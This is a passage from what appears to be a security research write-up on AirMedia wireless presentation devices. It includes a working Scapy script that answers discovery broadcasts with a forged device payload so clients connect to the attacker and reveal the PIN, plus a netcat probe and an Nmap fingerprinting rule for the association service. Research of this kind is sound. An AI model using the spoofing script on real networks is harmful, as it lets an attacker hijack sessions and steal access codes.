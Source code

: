Of course, we can also simulate an Airmedia device by replying to discovery requests sent by legitimate clients:

{% highlight python %}
#!/usr/bin/env python
from scapy.all import *

payload = "AWPP\xc0\xa8d2\x01\xbb|y\x04\x11'\x0cEvilHacker799df\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00Crestro100111101110001\x02!\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x01-\x00\x00\x00\x00\x00\x00\x00\x00WiPG1K5s" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x02\x04\x01\x13\x04\x050\x00\x00" \
"\x00\x00\x00\x00\x00"

def pkt_callback(pkt):
    if pkt[IP].dst[-3:] == "255" and pkt[UDP].dport==1049 \
        and pkt[Raw].load=="WPPS":
        print pkt[IP].src
        send(IP(dst=pkt[IP].src)/UDP(sport=1047, dport=1047)/payload)
sniff(prn=pkt_callback, filter="udp", store=0)
{% endhighlight %}

This could be used by an attacker to force a client to execute the association with its own machine instead of the legitimate Airmedia device and therefore steal the PIN code 😈.


### 2.2 Association/Authentication Protocol

The association between a client application and the Airmedia device is performed over TCP/389 with what seems to be a proprietary protocol.

#### Discovery

The first step is a "ping pong" request to verify availability of the remote device. Client sends `wppaliveROCK` to which the server replies `wppaliveROLL`. It's super easy to check with netcat:

<pre>
$ echo "wppaliveROCK" | nc 192.168.100.2 389
wppaliveROLL
</pre>

This behavior can be exploited with Nmap to reliably fingerprint that service. The rule below can be appended to **nmap-service-probes** file. It defines a TCP probe that will send `wppaliveROCK` to the target port. If Nmap receives a response from the service that match `wppaliveROLL`, this means we successfully identified an Awind association port.

<pre>
Probe TCP awindAssociat q|wppaliveROCK\n|
# rarity 8
ports 389,3268
match awind-associate m|^wppaliveROLL$|s p/Awind scdecapp association/ d/specialized/ cpe:/h:awind/
</pre>

#### Association (0x90)
